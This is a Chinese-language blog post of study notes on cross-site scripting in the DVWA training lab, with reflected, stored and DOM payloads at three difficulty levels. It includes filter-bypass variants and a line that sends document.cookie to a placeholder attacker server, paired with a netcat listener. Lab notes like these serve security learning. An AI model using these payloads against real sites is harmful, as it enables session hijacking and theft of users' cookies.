 ```yaml
---
layout: post
title: XSS
subtitle: XSS
date: 2024-08-05 20:03
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
---
```

# XSS
## XSS(Reflected)

### LOW

```html
#获取Cookie
<script>alert('document.cookie')</script>
#访问攻击者服务器
<iframe src='http://ip/time.jpg'></iframe>
#向攻击者服务器发送cookie
#nc -nvlp 80
<script>new Image().src="http://ip/a.php?output="+document.cookie;</script>
```
### MEDIUM

利用大小写，组合过滤条件绕过

```html
<Script>
<scr<script>ipt>
<body onload=alert('')>
<img src="" onerror="alert(document.cookie)"/>
```
### HIGH

```php
$name=preg_replace('/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i','',$_GET['name']);
```

无法使用\<script>但可以使用其他标签

## XSS(Stored)

### LOW

后台源码：

trim(string,charlist)：移除string字符两侧的预定义字符，预定义字符包括\t 、 \n 、\x0B 、\r以及空格，可选参数charlist支持添加额外需要删除的字符

stripslashes(string)：去除掉string字符的反斜杠＼

mysqli_real_escape_string(string,connection)：函数会对字符串string中的特殊符号（\x00，\n，\r，\，‘，“，\x1a）进行转义。

$GLOBALS：引用全局作用域中可用的全部变量。

### MEDIUM

```
htmlspecialchars()
//将标签转为普通字符
```

name为注入点

### HIGH

name为注入点

## XSS(DOM)

### LOW

url注入

```
http://192.168.30.131/dvwa/vulnerabilities/xss_d/?default=<script>alert(document.cookie)</script>
```
### MEDIUM

```
></option></select><img src=1 onerror="alert(document.cookie)"/>
```
### HIGH

服务器对default设置了白名单，攻击代码用#注释不上传到服务器

```
http://192.168.30.131/dvwa/vulnerabilities/xss_d/?default=English #<script>alert(document.cookie)</script>
```

